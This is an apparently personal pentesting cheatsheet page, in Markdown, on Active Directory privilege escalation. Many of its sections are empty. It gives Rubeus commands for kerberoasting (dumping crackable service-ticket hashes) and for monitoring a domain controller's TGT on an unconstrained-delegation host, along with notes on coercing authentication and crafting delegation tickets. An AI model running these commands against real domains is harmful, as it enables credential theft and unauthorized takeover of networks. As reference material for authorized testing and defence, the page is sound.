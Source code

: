 ```yaml
---
layout: post
title: privesc / ad
category: 02-privesc
parent: cheatsheets
modified_date: 2025-02-15
permalink: /privesc/ad
---
```


**Mitre Att&ck Entreprise**: [TA0007 - Discovery](https://attack.mitre.org/tactics/TA0007/)

**Menu**
<!-- vscode-markdown-toc -->
* [dacl](#dacl)
* [kerberoasting](#kerberoasting)
* [password-spraying](#password-spraying)
* [machine-account-quota](#machine-account-quota)
* [gpo](#gpo)
* [delegations](#delegations)
	* [KUD](#KUD)
	* [KCD](#KCD)
	* [RBCD](#RBCD)
* [ADCS](#ADCS)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->


**Tools**

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/t0thkr1s/gpp-decrypt","https://api.github.com/repos/FSecureLABS/SharpGPOAbuse","https://api.github.com/repos/NetSPI/PowerUpSQL"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.pushed_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>_repo</th><th>_last_push</th><th>_stars</th><th>_watch</th><th>_language</th></tr>
    </table>
</div>

## <a name='dacl'></a>dacl

credit: [thehacker.repices](https://thehacker.repices/ad/movement/dacl)
![ad privesc DACLs](/assets/images/pen-privesc-dacl.png)


## <a name='kerberoasting'></a>kerberoasting
```powershell
# kerberoastable accounts that support RC4_HMAC
Rubeus.exe -args kerberoast /user:$ztarg_user_name /simple /rc4opsec /outfile:hashes.txt

# edit 'hashes.txt' and remove the port in the SPN FOR JTR valid input 
:1433
```

🔎️ DETECT :
```powershell
# Kerberos etype downgrade
```

## <a name='password-spraying'></a>password-spraying

## <a name='machine-account-quota'></a>machine-account-quota

## <a name='gpo'></a>gpo

```bash
# launch a spawned console 
runas /user:$zx /netonly cmd

# launch an msc console from the spawned cmd
gpmc.msc
```


## <a name='delegations'></a>delegations

<iframe width="560" height="315" src="https://www.youtube.com/embed/7_iv_eaAFyQ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

 [recipes](https://www.thehacker.recipes/ad/movement/kerberos/delegations) / [slides](https://drive.google.com/file/d/1S8Ee29xUHluaT3shvtuHZqGfwZGfSCaV/view)


### <a name='KUD'></a>KUD

* sniff TGT on the KUD with rubeus
* coercer account authentication  to retrieve the TGT

```powershell
# KUD server: monitor the TGT
Rubeus.exe -args %Pwn% /targetuser:DCORP-DC$ /interval:5 /nowrap
```

### <a name='KCD'></a>KCD

* introduced in Windows Server 2008
* requires the service account hash of the KCD (defines with the attribute 'useraccountcontrol' = 'TRUSTED_TO_AUTH_FOR_DELEGATION')
* kraft TGS to services in the 'msds-allowedtodelegateto'

### <a name='RBCD'></a>RBCD

## <a name='ADCS'></a>ADCS